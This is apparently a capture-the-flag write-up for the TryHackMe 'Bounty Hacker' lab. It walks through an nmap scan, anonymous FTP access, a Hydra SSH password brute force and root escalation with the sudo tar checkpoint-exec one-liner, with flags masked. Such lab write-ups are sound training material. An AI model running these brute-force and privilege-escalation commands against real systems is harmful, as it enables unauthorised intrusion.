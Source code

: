 # [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

`Machine's IP - 10.10.113.185`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.113.185 -Pn > nmap-bountyhacker.log`

# Analyzing Information and Risks
I certainly noticed that FTP (File Transfer Protocol) allowed Anonymous login, so I went to check that out. The website didn't have anything important.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-16 20:52 Central Standard Time (Mexico)
Nmap scan report for 10.10.136.125
Host is up (0.49s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07 20:41 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07 20:47 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.20.112
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.71 seconds
```

I logged into FTP `ftp 10.10.113.185` with user `Anonymous` and, bingo! I'm in. Listing the contents, I got this:

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
locks.txt
task.txt
226 Directory send OK.
ftp: 24 bytes received in 0.00Seconds 24.00Kbytes/sec.
```

Using `mget *` I downloaded both files, and in my local directory I saw the content.

The next thing was getting Hydra ready. I passed the `-l lin` for user and `-P locks.txt` for the list and .. 

`[22][ssh] host: 10.10.113.185   login: lin   password: ******************`

Houston, we're in.

Now that I had the SSH login credentials, I decided to look around. So, I logged in `ssh lin@10.10.113.185`. Inside, I listed the contents
of the current directory and found the first flag.
Question 4 - user.txt


```
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
******************
```

So, being here I could've gone with [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) but since the password was already cracked I listed the users permissions with `sudo -l`.
I noted the following:

```
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

With this, I decided to go to [GTFOBins](https://gtfobins.github.io/) and searched for tar. Obviously I went with the sudo option:

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

Aaaanddd, we have root.

```bash
root@bountyhacker:~/Desktop# whoami
root
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls
root.txt
root@bountyhacker:/root# cat root.txt
******************
```

## License
[MIT](https://choosealicense.com/licenses/mit/)
